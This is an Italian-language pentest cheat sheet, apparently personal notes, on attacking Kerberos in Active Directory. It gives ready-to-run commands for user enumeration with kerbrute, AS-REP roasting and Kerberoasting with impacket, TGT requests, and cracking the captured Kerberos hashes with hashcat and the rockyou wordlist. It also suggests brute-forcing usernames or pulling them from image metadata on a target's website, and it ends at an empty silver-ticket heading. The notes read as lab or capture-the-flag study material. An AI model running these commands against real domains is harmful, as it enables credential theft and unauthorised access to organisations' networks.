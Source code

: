 
==Se da errore KRB_AP_ERR_SKEW==
```bash
timedatectl set-ntp false
ntpdate <IP>
```
### **ENUM USER**
==GLI USER POTRESTI ANCHE BRUTEFORZARLI O TROVARLI TRA I METADATA DELLE IMMAGINI SUL SITO==
```bash
kerbrute userenum -d <NOME DOMINIO> --dc <IP DC> <LISTA>
```
![[Pasted image 20230510110607.png]]
### **AspeRoasting**

```bash
impacket-GetNPUsers '<NOME DOMINIO>/' -no-pass -usersfile users.txt -format hashcat -outputfile hash
```
==L'HASH VIENE MESSO NEL FILE DI OUTPUT==
Dopo cracca l'hash
### **Kerberoasting**
```bash
impacket-GetUserSPNs <NOME MACCHINA>/<USER>:<PASS> -request
```
### **TGT BruteForce**
```bash
impacket-getTGT '<DOMAIN>/<USERS>:<PWD>'
```
```bash
export KRB5CCNAME=..../user.chace
```
### **CRACK KRB5 HASH**
```bash
hashcat -m 18200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```
### **SILVER TICKET**
